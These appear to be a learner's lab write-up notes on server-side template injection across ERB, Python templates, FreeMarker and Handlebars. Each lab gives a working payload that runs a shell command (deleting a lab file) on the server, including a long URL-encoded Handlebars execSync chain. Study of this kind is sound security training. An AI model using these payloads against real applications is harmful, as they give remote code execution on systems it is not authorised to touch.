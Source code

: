 # SSTI (Template Injection)

Templates are used for emails, invoices, creating pdf files or anything that needs a standardized format really. The content of an error message could well be created via template. If we can inject data into this template where input data is being used to perform an action, then we achieve SSTI

Most times, using an invalid payload helps identify template used via error message

`${{<%[%'"}}%.`

This will brick it for sure, finetune it to generate a desirable output

### Lab 1 (Basic)

It's important to find which parameter is vulnerable in the first place, I looked at the product viewing URL but the first item was out of stock and sent an error message.

Challenge mentions ERB by Ruby is used, Payloadallthethings

<div align="left"><figure><img src="../../.gitbook/assets/image (94).png" alt="" width="563"><figcaption></figcaption></figure></div>

`<%= 7 * 8 %>`

<div align="left"><figure><img src="../../.gitbook/assets/image (96).png" alt="" width="504"><figcaption><p>Find 56 in the response div</p></figcaption></figure></div>

`<%= system('rm /home/carlos/morale.txt') %>`

<div align="left"><figure><img src="../../.gitbook/assets/image (95).png" alt="" width="249"><figcaption></figcaption></figure></div>

### Lab 2 (Code context)

In account settings, we have option choose how our Username to be displayed, this setting is used when displaying our names in comments on blogs.

<figure><img src="../../.gitbook/assets/image (97).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (98).png" alt=""><figcaption></figcaption></figure>

`{%import os%} {{os.system('rm /home/carlos/morale.txt')`

Using double curly braces for importing OS was the mistake, don't forget to URL encode if it dont work

In first lab we overwrote entire input field, this we appending like SQLi which is why end braces are omitted at the end.

### Lab 3 (Unknown language)

Using {$var} and ${var} are two completely different things, the latter only triggers an error

<div align="left"><figure><img src="../../.gitbook/assets/image (99).png" alt="" width="563"><figcaption></figcaption></figure></div>

We are able to edit template used for product description, using an undefined variable produces an error and see freemarker by java is used, once you figure out what's being used everything is documented online

`${"freemarker.template.utility.Execute"?new()("rm /home/carlos/morale.txt")}`

### Lab 4 (Unknown Language)

<div align="left"><figure><img src="../../.gitbook/assets/image (100).png" alt=""><figcaption></figcaption></figure></div>

Handlebars JS template running, you know the rest. However, if encoding key characters doesn't work, encode all characters too just try it lol

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('rm /home/carlos/morale.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

turns to

```
%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%53%79%6e%63%28%27%72%6d%20%2f%68%6f%6d%65%2f%63%61%72%6c%6f%73%2f%6d%6f%72%61%6c%65%2e%74%78%74%27%29%3b%22%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%7b%7b%2f%77%69%74%68%7d%7d
```
